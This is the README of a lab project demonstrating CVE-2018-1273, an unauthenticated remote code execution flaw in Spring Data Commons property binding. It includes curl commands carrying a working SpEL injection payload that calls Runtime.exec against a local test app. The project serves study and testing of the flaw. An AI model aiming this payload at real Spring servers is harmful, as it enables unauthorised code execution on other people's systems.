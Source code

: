 # CVE-2018-1273

Spring Data Commons, versions prior to 1.13 to 1.13.10, 2.0 to 2.0.5, and older unsupported versions, contain a property binder vulnerability caused by improper neutralization of special elements. An unauthenticated remote malicious user (or attacker) can supply specially crafted request parameters against Spring Data REST backed HTTP resources or using Spring Data’s projection-based request payload binding hat can lead to a remote code execution attack.

More information [here](https://pivotal.io/security/cve-2018-1273)

# Running 

The application can be tested with the vulnerable version or the fixed version of Spring Data Commons. 

* Vulnerable version (by default):

```
mvn spring-boot:run
```

* Fixed version:

```
mvn spring-boot:run -Dfixed
```

# Testing the vulnerability

Run the following command to check if the vulnerability can be exploited:

* On Windows:

```
curl -X POST http://localhost:8080/account -d "name[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('calc.exe')]=123"

```

* On MacOs:

```
curl -X POST http://localhost:8080/account -d "name[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('/Applications/Calculator.app/Contents/MacOS/Calculator')]=test"

```

# Credits
Created by https://www.arima.eu

![ARIMA Software Design](https://arima.eu/arima-claim.png)
